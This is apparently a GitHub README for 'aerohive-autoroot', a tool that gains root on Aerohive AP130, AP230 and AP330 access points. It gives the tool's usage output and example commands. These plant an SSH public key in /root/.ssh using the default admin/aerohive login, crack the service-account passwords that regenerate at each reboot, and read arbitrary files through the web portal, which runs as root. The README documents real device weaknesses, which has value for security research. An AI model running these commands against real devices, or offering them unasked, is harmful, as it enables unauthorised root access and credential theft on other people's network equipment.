 # aerohive-autoroot
Privilege escalation on aerohive devices

# Tested devices

- AP130
- AP230
- AP330

# Requirements
Network access to the device

# How do

This tool has a number of modes and tools that allow for manual access. Shown below is the help output.

```
usage:  aerohive-autoroot [options] <device ip>
        General
                --generate <mac>        Generate password list for system users, print to stdout
        Modes
                --no-access     Can connect to the aerohive device, but not login (Default)
                --rcli          Restricted command line access

        No Access Options
                --webport <port>        The web server port (Default: 443)
                --readfile <path>       Path to file to read off the server and print it to STDOUT (disables automatic cracking)

        Restricted CLI Access Options
                -u      Command line interface username
                -p      Command line interface password
                --pubkey <path> Path to your public key to write to device
```


If you have acess to a restricted shell on the device, it is possible to gain full ssh access by dropping a public key into the `/root/.ssh` folder.
You'd do this in the tool by the following:

```
aerohive-autoroot --rcli --pubkey ~/.ssh/id_ed25519 192.168.1.1
```
This would default to using the default username/password `admin`/`aerohive`.  
  
For more complex exploitation, you have the no access options.  
This does require the device to have the web configuration portal accessible.  

Effectively you can use the automated part of the tool to crack default password of 'service' accounts that are automatically added with a new (easily guessible) password each reboot. 

```
aerohive-autoroot 192.168.1.1
```

Other tools you can use are the `generate` and `readfile` functionalities. 
Generate allows you to generate a list of possible passwords for the service accounts, if you have the mac address. I found it wasnt feasible to bruteforce the OpenSSH, due to you still having to attempt 1 million guesses. 

The readfile functionality requires you to have access to the web portal on the device, and will allow you to read any file off the device (as the web server is running as root).

Some other work done on these devices can be found here: https://github.com/eriknl/CVE-2020-16152
This utilises another PHP bug to gain immediate shell execution on the device. 


# Limitations
On the newer firmware versions, If no user has ever logged into the web interface the web exploits will not work. Due to the authorisation essentially relying on a "is this file on the filesystem". 
If this file doesnt exist, then it isnt possible to initalise the php modules that have serious vulnerabilities. 
